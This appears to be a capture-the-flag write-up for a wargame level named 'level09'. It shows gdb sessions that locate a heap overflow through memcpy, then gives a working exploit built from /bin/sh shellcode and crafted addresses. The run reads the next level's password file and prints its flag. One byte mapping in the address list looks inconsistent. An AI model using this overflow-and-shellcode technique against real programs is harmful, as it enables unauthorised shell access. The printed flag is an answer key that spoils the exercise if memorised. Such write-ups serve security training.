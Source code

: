 # level09

## disassemble

```shell
objdump -dC -M intel level9 > source.txt
# objdump --disassemble --demangle --disassembler-options intel level9 > source.txt
```

## find_a_vulnerability

### get_first_address_of_the_heap

```shell
gdb level9

# 8048617:	e8 14 ff ff ff       	call   8048530 <operator new(unsigned int)@plt>
# 804861c:	89 c3                	mov    ebx,eax
(gdb) break *0x804861c
(gdb) run BBBB
(gdb) info registers
eax            0x804a008	134520840
```

The fisrst address : `0x804a008`

### memcpy_to_edx

#### call_edx

```
080485f4 <main>:
 [...]
 8048693:       ff d2                   call   edx
 [...]
```

#### memcpy's_vulnerability

* write on heap

```shell
gdb level9
# 8048733:	e8 d8 fd ff ff       	call   8048510 <memcpy@plt>
# 8048738:	c9                   	leave
(gdb) break *0x8048738
(gdb) run BBBB
(gdb) x/42x 0x804a008
0x804a008:	0x08048848	0x42424242	0x00000000	0x00000000
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a058:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000005	0x00000071
0x804a078:	0x08048848	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a098:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a8:	0x00000000	0x00000000
```

* segmentation fault

```bash
python2.7 -c 'print("BBBB" * 27)' > /tmp/exploit.txt
gdb level9
(gdb) run $(cat /tmp/exploit.txt)
Starting program: /home/user/level9/level9 $(cat /tmp/exploit.txt)
[Inferior 1 (process 6537) exited with code 0110]
```

```bash
python2.7 -c 'print("BBBB" * 28)' > /tmp/exploit.txt
gdb level9
(gdb) run $(cat /tmp/exploit.txt)
Starting program: /home/user/level9/level9 $(cat /tmp/exploit.txt)

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) x/42x 0x804a008
0x804a008:	0x08048848	0x42424242	0x42424242	0x42424242
0x804a018:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a028:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a038:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a048:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a058:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a068:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a078:	0x42424242	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a098:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a8:	0x00000000	0x00000000
```

First address       : `0x804a008 + 4` --> `0x804a00c` --> "\x0c\xa0\x04\x08"
Second address      : `0x804a008 + 8` --> `0x804a010` --> "\x50\x88\x04\x08"
Segfault's address	: `0x804a078`

* shellcode

`\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80`

* exploit

```
python2.7 -c 'print( "" \
        + "\x10\xa0\x04\x08" \
        "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"  \
        + ("...." * 20) \
        + "\x0c\xa0\x04\x08" \
        )'\
        > /tmp/exploit.txt
./level9 $(cat /tmp/exploit.txt)
cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
